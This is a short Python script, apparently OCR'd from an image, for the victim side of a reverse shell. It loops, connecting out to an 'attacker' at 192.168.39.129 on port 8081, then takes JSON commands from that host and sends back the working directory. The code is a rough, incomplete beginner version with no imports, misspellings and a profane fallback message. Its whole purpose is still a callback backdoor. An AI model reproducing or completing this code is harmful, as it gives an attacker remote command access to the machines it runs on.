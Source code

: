 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    print("Reliably Recved")
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    print("Inside the shell functions")
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'say':
            print("Hello World")
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            print("Trying to send connection to the attacker")
            connection_to_attacker.connect(("192.168.39.129", 8081))
            print("call To the shell function")
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
